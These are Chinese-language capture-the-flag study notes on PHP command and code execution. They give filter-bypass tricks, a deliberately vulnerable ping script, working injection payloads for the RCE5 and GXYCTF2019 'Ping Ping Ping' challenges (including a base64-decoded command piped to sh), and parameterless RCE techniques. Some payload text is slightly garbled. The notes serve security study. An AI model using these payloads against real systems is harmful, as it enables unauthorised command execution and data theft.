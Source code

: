 # 命令执行

## 命令

```
system() 有回显 有返回值
passthru() 有回显 无返回值
exec() 无回显 有返回值 —— 命令执行无回显： 1、带外dnslog 2、反弹shell 3、写文件
shell_exec() 无回显 有返回值
```

命令：find / -name flag

​	在/目录下寻找flag



## RCE绕过技巧

### 空格绕过

![54752588008a84c610ede6790fbbddda](assets/54752588008a84c610ede6790fbbddda.png)

### cat绕过

<img src="assets/5c13170ee9eb988f8ccfcb4f3ab75697.png" alt="5c13170ee9eb988f8ccfcb4f3ab75697" style="zoom: 50%;" />

### ls过滤绕过

<img src="assets/26bc983078d0dcb3b76453ea16e8d849.png" alt="26bc983078d0dcb3b76453ea16e8d849" style="zoom:50%;" />

### 敏感字符过滤绕过

<img src="assets/f8db3bd237d7373679b9d61fe9d1ed03.png" alt="f8db3bd237d7373679b9d61fe9d1ed03" style="zoom: 50%;" />

## 题目：无过滤RCE

![image-20250917083303676](assets/image-20250917083303676.png)

## 题目：RCE5

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    if(isset($_GET['ip'])){
        if(preg_match('/\&|\/|\?|\*| |flag|ls|cat|php|\'|\"/',$_GET['ip'])){
            die('hacker!!!');
        }else{
            $ip=$_GET['ip'];
        }
        system('ping -c 1'.$ip);
    }else{
        exit();
    }

?>
```

过滤了：

```
&, /, ?, *, 空格, ', ", flag, ls, cat, php,
```

没有过滤\

```
?ip=-1;ca\t${IFS}fla\g.p\hp
```

![image-20250917091050587](assets/image-20250917091050587.png)

还可以：

```
?ip=-1;tac${IFS}fla\g.p[0-z]p
```

![image-20250917091212299](assets/image-20250917091212299.png)

变量绕过：

![image-20250917092200154](assets/image-20250917092200154.png)

内联绕过：

```
cat `ls` 把ls执行结果cat出来 里面的文件都会被查看出来
```

![image-20250917093741290](assets/image-20250917093741290.png)

## 题目：[GXYCTF2019]Ping Ping Ping

这个题发现cat、ls、``没过滤

所以直接：

```
?ip=-1;cat$IFS$9`ls`
```

查看页面源代码：

![image-20250917095545813](assets/image-20250917095545813.png)

**另外的方法是base64编码**

```
?ip=-1;echo cat flag.php|base64 -d|sh
然后把cat flag.php进行base64编码
把空格换成$IFS$9
?ip=-1;echo$IFS$9Y2F0IGZsYWcucGhw|base64$IFS$9-d|sh
```

然后查看页面源代码

它上面的过滤会把以f l a g 顺序出现过的都过滤掉，比如（不能顺序出现这四个字母）

```
aafsslwwaooog
wwwfoiopllaoigpp
```

可以这样绕过：

```
?ip=-1;a=g;cat$IFS$9fla$a.php
```

# 代码执行

```
phpinfo()
file_get_contents()
eval('phpinfo()') 
assert() 内容是字符串的话，当php代码执行 assert('phpinfo()')
call_user_func('system', 'ls -alh') = system('ls -alh')
call_user_func_array('system', ['whoami'])

create_function(a,b) = function(a){b} 若a=){};phpinfo();// 则原式=function(){};phpinfo();//){b}
同理，如果b=}phpinfo();// 原式=function(a){}phpinfo();//
phpinfo可换成system('ls')
```

## 无参数RCE

![image-20250917103250830](assets/image-20250917103250830.png)

![9e17f48958ba1f6c458c9cb98ee2ffce_720](assets/9e17f48958ba1f6c458c9cb98ee2ffce_720.png)

scandir()是要求参数的，可以把getcwd()结果作为其参数

```
?cmd=print_r(scandir(getcwd()));
```

![image-20250917105201335](assets/image-20250917105201335.png)

array_rand() 从数组中随机取出一个或多个单元（随机取出的是键名）

例如，随机取出了4：

![image-20250917105250445](assets/image-20250917105250445.png)

而array_flip()可以交换数组中的键和值，那把键和值交换一下，array_rand()就能随便从数组中取出键值了

例如，随机取出了prrg_replace.php：

![image-20250917105418455](assets/image-20250917105418455.png)

把print_r换成highlight_file()，随机读出flag.php的内容：

![image-20250917105533637](assets/image-20250917105533637.png)

#### 那么如何读上一级内容

### 无参数RCE——通过session_id绕过

![image-20250917111228641](assets/image-20250917111228641.png)

### 无参数RCE——get_defined_vars()绕过

get_defined_vars返回由所有已定义变量所组成的数组，包括环境变量、服务器变量和用户定义的变量。

current()返回数组中的当前单元 默认取第一个值

end() 将数组的内部指针指向最后一个单元

`?c=eval(end(current(get_defined_varsO);&test=system('Is'):`

![image-20250917182336352](assets/image-20250917182336352.png)

加上current()

![image-20250917182600634](assets/image-20250917182600634.png)

加上end()

![image-20250917182637581](assets/image-20250917182637581.png)

print_r换成system

![image-20250917182721666](assets/image-20250917182721666.png)

### 无参数RCE——getallheaders()绕过

加一个cat flag.php;

![image-20250917184643466](assets/image-20250917184643466.png)

它不在数组的第一位或者最后一位，怎么办？利用之前那种随机的方法：

![image-20250917184527209](assets/image-20250917184527209.png)